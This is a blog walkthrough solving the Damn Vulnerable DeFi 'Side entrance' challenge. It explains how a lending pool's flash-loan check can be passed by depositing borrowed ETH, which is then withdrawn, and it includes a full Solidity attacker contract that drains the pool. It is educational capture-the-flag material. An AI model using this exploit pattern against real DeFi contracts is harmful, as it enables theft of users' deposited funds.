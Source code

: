 ```yaml
---
title: 'Damn Vulnerable DeFi Challenge #4 Solution — Side entrance'
excerpt: 'Damn Vulnerable DeFi is the war game created by @tinchoabbate to learn offensive security of DeFi smart contracts.</br></br>The endgoal of this challenge is to leverage the free (no fee) flashloans to drain the pool.'
coverImage:
  url: '/assets/blog/ethereum.jpg'
  credit:
    name: Nenad Novaković
    url: https://unsplash.com/@dvlden
date: '2022-04-12T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethereum.jpg'
---
```


[Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html) is the war game created by [@tinchoabbate](https://twitter.com/tinchoabbate) to learn offensive security of DeFi smart contracts.

Throughout numerous challenges, you will build the skills to become a bug hunter or security auditor in the space.

## Challenge #4  —  Side entrance

> A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.
>
> This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.
>
> You must take all ETH from the lending pool.

- [See contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.0.0/contracts/side-entrance)
- [Hack it](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/side-entrance/side-entrance.challenge.js)

## The attacker end goal

The endgoal of this challenge is to leverage the free (no fee) flashloans to drain the pool.

## Study the contracts

### `SideEntranceLenderPool`

The contract use `pragma solidity ^0.8.0;` so it will not be prone to math overflow/underflow

It has a `deposit` function where a supplier could send ETH. The function just account for your balance doing `balances[msg.sender] += msg.value;`. As we said, there’s no overflow/underflow problem given the Solidity version used.

It has a `withdraw` function that does not implement a Reentrancy guard, but it’s safe because it correctly follows the [Checks-Effects-Interactions Pattern](https://docs.soliditylang.org/en/v0.8.13/security-considerations.html#use-the-checks-effects-interactions-pattern) for which you update the internal state of the contract **before** any external interaction.  
In this function, the contract just get the account balance, reset it to 0 and send all the ETH back to the user.

The last function is the `flashLoan` one that takes only the `amount` to borrow as input parameter.

Inside the function the contract check that it has enough balance to allow the borrow operation, send the borrowed amount to the user calling `IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();` and finally check that after the loan has been executed the new balance (`address(_this_).balance`) is greater or equal of the old one (`balanceBefore`).

The issue with this contract is that they have two types of “accounting” system. One for the suppliers that can send and withdraw their ETH and another for the flash loans, that just take in considerations the balance of the contract but not the amount deposited on the user balances!

So, how could we take advantage of this issue?

## Solution code

First we need to create a new Contract because as you can see, only a contract can execute and receive the flash loans.

This temporary contract will

- Execute the flashloan
- Receive the funds implementing a `receive` function
- Deposit all the borrowed ETH into lending pool via the `deposit` function
- Repay back `0` ETH to the Lending Pool
- Withdraw all the deposited ETH from the Lending Pool
- Send to the attacker account the withdrawn ETH

How can this work? Well, because the Lending Pool allow us to `deposit` ETH it cannot (with the current implementation) know if those funds are from borrowed ETH or “normal” ETH.

So, when at the end of the `flashLoan` function it will check

`require(address(_this_).balance >= balanceBefore, “Flash loan hasn’t been paid back”);`

it will pass because we effectively deposited back all the borrowed ETH, with the exception that now we can withdraw them back because they have been accounted in our `balances[msg.sender]`

```solidity
// Do not use this code
// Part of the https://www.damnvulnerabledefi.xyz/ challenge

contract Executor is IFlashLoanEtherReceiver {
    using Address for address payable;

    SideEntranceLenderPool pool;
    address owner;

    constructor(SideEntranceLenderPool _pool) {
        owner = msg.sender;
        pool = _pool;
    }

    function execute() external payable {
        require(msg.sender == address(pool), "only pool");
        // receive flash loan and call pool.deposit depositing the loaned amount
        pool.deposit{value: msg.value}();
    }

    function borrow() external {
        require(msg.sender == owner, "only owner");
        uint256 poolBalance = address(pool).balance;
        pool.flashLoan(poolBalance);

        // we have deposited inside the `execute` method so we withdraw the deposited borrow
        pool.withdraw();

        // now we transfer received pool balance to the owner (attacker)
        payable(owner).sendValue(address(this).balance);
    }

    receive () external payable {}
}
```

You can find the full solution on GitHub, looking at [SideEntranceLenderPool.t.sol](https://github.com/StErMi/forge-damn-vulnerable-defi/blob/main/src/test/side-entrance/SideEntranceLenderPool.t.sol)

If you want to try yourself locally, just execute `forge test --match-contract SideEntranceLenderPooolTest -vv`

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION
